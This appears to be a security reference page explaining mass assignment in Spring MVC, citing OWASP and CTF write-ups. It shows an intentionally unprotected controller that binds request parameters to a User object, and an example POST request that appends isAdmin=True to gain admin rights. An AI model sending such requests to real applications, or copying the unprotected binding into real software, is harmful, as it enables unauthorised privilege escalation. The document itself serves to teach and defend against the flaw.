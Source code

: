 Software frameworks sometime allow developers to automatically bind HTTP request parameters into program code variables or objects to make using that framework easier on developers. This can sometimes cause harm.

Attackers can sometimes use this methodology to create new parameters that the developer never intended which in turn creates or overwrites new variable or objects in program code that was not intended.

This functionality becomes exploitable when:

- Attacker can guess common sensitive fields.
- Attacker has access to source code and can review the models for sensitive fields.
- AND the object with sensitive fields has an empty constructor.

# Example

Suppose there is a form for editing a user's account information:

```html
<form>
     <input name="userId" type="text">
     <input name="password" type="text">
     <input name="email" text="text">
     <input type="submit">
</form>
```

Here is the object that the form is binding to:

```java
@Data
public class User {
   private String userid;
   private String password;
   private String email;
   private boolean isAdmin;
}
```

Here is the controller handling the request:

```java
@RequestMapping(value = "/addUser", method = RequestMethod.POST)
public String submit(User user) {
   userService.add(user);
   return "successPage";
}
```

Here is the typical request:

```http
POST /addUser
...
userid=attacker&password=s3cret_pass&email=attacker@attacker-website.com
```

And here is the exploit in which we set the value of the attribute isAdmin of the instance of the class User:

```http
POST /addUser
...
userid=attacker&password=s3cret_pass&email=attacker@attacker-website.com&isAdmin=True
```

# References

- [OWASP Mass Assignment Cheat Sheet](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Mass_Assignment_Cheat_Sheet.md)
- [Spring MVC, protect yourself from Mass Assignment](https://domineospring.wordpress.com/2015/05/18/spring-mvc-proteja-se-do-mass-assignment/)
- [Security of your application and frameworks: the attack on GitHub](https://blog.caelum.com.br/seguranca-de-sua-aplicacao-e-os-frameworks-ataque-ao-github/)
- [Write up: Spring's setDisallowedFields bypass in the VolgaCTF2019 Shop task](https://gitlab.com/salted-crhackers/writeups/-/tree/master/2019/volgactf-qualifier/shop)
- [Write up: The VolgaCTF2019 Shop v2 task](https://balsn.tw/ctf_writeup/20190329-volgactfqual/#shop-v2)
